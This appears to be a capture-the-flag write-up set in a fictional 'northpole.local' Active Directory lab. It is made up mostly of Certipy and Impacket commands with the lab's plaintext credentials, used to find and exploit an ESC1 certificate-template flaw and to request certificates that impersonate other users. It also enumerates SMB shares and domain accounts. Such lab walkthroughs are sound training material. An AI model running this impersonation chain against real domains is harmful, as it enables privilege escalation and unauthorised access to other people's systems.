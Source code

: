 ```
```bash linenums="1" hl_lines="7" title="Just code"
certipy find -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53
certipy find -vulnerable -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53
```

```
[!] Vulnerabilities
      ESC1                              : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

Result suggest the server is vulnerable to ESC1. 

### Command to get the certificate according to template:

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers```

### Command to exploit ESC1 vulnerability:

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers -target northpole.local -upn researchers@northpole.local -dns npdc01.northpole.local```

### Get the file share name: 

```smbclient.py northpole.local/elfy:J4\`ufC49\/J4766@10.0.0.53```

```bash linenums="1" hl_lines="7" title="Just code"
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL

# use FileShare
# ls
drw-rw-rw-          0  Sat Dec 16 01:15:23 2023 .
drw-rw-rw-          0  Sat Dec 16 01:15:20 2023 ..
-rw-rw-rw-     701028  Sat Dec 16 01:15:23 2023 Cookies.pdf
-rw-rw-rw-    1521650  Sat Dec 16 01:15:23 2023 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Sat Dec 16 01:15:23 2023 SignatureCookies.pdf
drw-rw-rw-          0  Sat Dec 16 01:15:23 2023 super_secret_research
-rw-rw-rw-        165  Sat Dec 16 01:15:23 2023 todo.txt
```


```alabaster@ssh-server-vm:~/impacket$ lookupsid.py northpole.local/elfy:J4\`ufC49\/J4766@10.0.0.53```

Returns notable results: 

```
1103: NORTHPOLE\researchers (SidTypeGroup)
1105: NORTHPOLE\wombleycube (SidTypeUser)
```

To confirm wombley is our suspect: 
```GetADUsers.py northpole.local/elfy:'J4`ufC49/J4766' -dc-ip 10.0.0.53 -all```


Since Wombley Cube is a researcher in Noir island, you can probably start exploiting ESC1 from this step. 

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers -target northpole.local -upn researchers@northpole.local -dns npdc01.northpole.local```

### To become Wombley

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers -target northpole.local -upn wombleycube@northpole.local -dns npdc01.northpole.local```
```